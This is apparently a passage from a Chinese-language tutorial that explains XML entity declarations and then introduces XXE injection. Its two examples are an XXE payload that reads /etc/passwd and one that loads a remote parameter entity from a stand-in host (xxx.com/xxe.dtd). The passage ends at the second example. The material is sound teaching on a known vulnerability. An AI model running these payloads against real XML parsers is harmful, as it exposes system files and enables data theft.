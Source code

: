 ```
<!ENTITY writer "Bill Gates">
<!ENTITY copyright "Copyright W3School.com.cn">
```

XML 例子:

```
<author>&writer;&copyright;</author>
```

注释: 一个实体由三部分构成: 一个和号 (&), 一个实体名称, 以及一个分号 (;)。

### 一个外部实体声明

### 语法：

```
<!ENTITY 实体名称 SYSTEM "URI/URL">
```

### 例子：

DTD 例子:

```
<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
```

XML 例子:

```
<author>&writer;&copyright;</author>
```

有了以上的XML和DTD的知识基础，我们就可以学习XXE漏洞了。

## **XXE漏洞——XML外部实体注入(XML External Entity)**

当应用是通过用户上传的XML文件或POST请求进行数据的传输，并且应用没有禁止XML引用外部实体，也没有过滤用户提交的XML数据，那么就会产生XML外部实体注入漏洞，即XXE漏洞

#### 例1：

```
<?xml version="1.0"?>
<!DOCTYPE a [<!ENTITY b SYSTEM "file:///etc/passwd" >]>
<x>&b;</x>
```

如果以上xml代码被解析，则会返回/etc/passwd文件的内容。

#### 例2：

```
<?xml version="1.0"?>
<!DOCTYPE a [<!ENTITY % d SYSTEM "http://xxx.com/xxe.dtd" >
%d;
]>
<x>&xxe;</x>
```

